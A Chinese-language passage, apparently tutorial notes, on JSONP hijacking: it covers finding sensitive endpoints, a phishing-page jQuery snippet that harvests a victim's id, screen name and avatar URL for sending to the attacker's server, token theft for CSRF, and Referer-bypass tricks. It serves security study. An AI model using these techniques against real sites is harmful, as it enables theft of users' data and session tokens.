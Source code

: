 找到可疑的请求就拖到url访问一下看有没有关注的敏感信息。

如果存在，切换页面看是否能被不同的域请求到。

当然以上过程可以换位selenium+proxy代理实现，验证的话就剔除Referer字段再进行请求，不需要referer就能拿到敏感json，那就存在jsonp劫持漏洞



## json水坑攻击

所谓水坑攻击，也就是钓鱼and信息收集窃取数据，发现jsonp接口后制作一个钓鱼网站，其中包含自动请求jsonp接口的脚本，比如：

```java
$.ajax({
    url: 'jsonp漏洞接口',
    type: 'get',
    dataType: 'jsonp',
}).done(function(json){
    var id = json["data"]["id"];
    var screen_name = json["data"]["screen_name"];
    var profile_image_url = json["data"]["profile_image_url"];

    var post_data = "";
    post_data += "id=" + id + "&amp;";
    post_data += "screen_name=" + screen_name + "&amp;";
    post_data += "profile_image_url=" + encodeURIComponent(profile_image_url);
    console.log(post_data);
    // 发送到我的服务器上
}).fail(function() {});
```

将目标的id,screen_name和profile_image_url发送到本地服务器。

## JSONP跨域劫持token

发起jsonp请求，获取token后进行csrf攻击

## Referer绕过

1. 利用data URL构造无Referer请求。

2. HTTPS发送HTTP请求。目标网站可以通过HTTP访问时，HTTPS页面发起HTTP请求默认不发送Referer



参考：https://www.k0rz3n.com/2018/06/05/%E7%94%B1%E6%B5%85%E5%85%A5%E6%B7%B1%E7%90%86%E8%A7%A3JSONP%E5%B9%B6%E6%8B%93%E5%B1%95/

https://www.k0rz3n.com/2019/03/07/JSONP%20%E5%8A%AB%E6%8C%81%E5%8E%9F%E7%90%86%E4%B8%8E%E6%8C%96%E6%8E%98%E6%96%B9%E6%B3%95/
